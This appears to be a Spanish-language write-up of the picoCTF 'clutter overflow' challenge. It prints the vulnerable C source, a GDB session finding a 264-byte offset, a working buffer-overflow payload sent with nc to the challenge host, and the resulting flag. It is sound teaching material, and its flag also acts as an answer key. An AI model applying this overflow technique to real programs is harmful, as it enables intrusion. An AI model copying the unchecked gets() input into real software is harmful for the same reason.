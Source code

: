 ## Descripción
Clutter, clutter everywhere and not a byte to use.`nc mars.picoctf.net 31890`

## Pistas 

## Solución
Nos dan un binario de 64 bits llamado  chall:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)  
```
También tenemos el código fuente C. Básicamente, lo que hace el programa es llamar a la función y luego comparar una variable local (código) con el valor de una variable global (GOAL):
```
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = "...";

int main() {
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts(HEADER);
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);

  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);  
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
The idea is simple: gets is vulnerable to Buffer Overflow, so we can write values on the stack. That way, we can overwrite the value of variable code:

Let’s debug it with GDB:

$ gdb -q chall
Reading symbols from chall...
(No debugging symbols found in chall)
gef➤  disassemble main
   ...
   0x000000000040074c <+133>:   call   0x4005d0 <gets@plt>  
   0x0000000000400751 <+138>:   mov    eax,0xdeadbeef
   0x0000000000400756 <+143>:   cmp    QWORD PTR [rbp-0x8],rax
   0x000000000040075a <+147>:   jne    0x40078c <main+197>
   ...
End of assembler dump.
```
Vemos que el código de la variable local se almacena en $rbp - 0x8. Entonces, encontremos el desplazamiento para alcanzar el registro $rbp usando una cadena de patrón. Debemos usar una cadena de más de 256 bytes (0x100), que es la longitud del búfer que se muestra en el código fuente:
```
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaa  
aauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
[+] Saved as '$_gef0'
gef➤  run
Starting program: ./chall
My room is so cluttered...
What do you see?
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaa
aauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
code == 0x6261616161616169
code != 0xdeadbeef :(

Program received signal SIGSEGV, Segmentation fault.
0x00000000004007c0 in main ()
```

```
gef➤  pattern offset $rbp
[+] Searching for '$rbp'
[+] Found at offset 272 (little-endian search) likely  
```

Necesitamos 272 bytes para controlar $rbp. Por lo tanto, necesitamos 264 (272 - 8) para llegar a la variable que queremos modificar. Después de los 264 caracteres, debemos poner 0xdeadbeef en formato little-endian para pasar la verificación y leer la bandera:
```
$ (python3 -c 'import sys; sys.stdout.write("A" * 264)'; echo -e '\xef\xbe\xad\xde') | ./chall  
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
cat: flag.txt: No such file or directory
```
 Enviemos la carga útil a la instancia remota:
 ```
 $ (python3 -c 'import sys; sys.stdout.write("A" * 264)'; echo -e '\xef\xbe\xad\xde') | nc mars.picoctf.net 31890  
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
 ```
## Bandera
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}

## Notas Adicionales

## Referencias
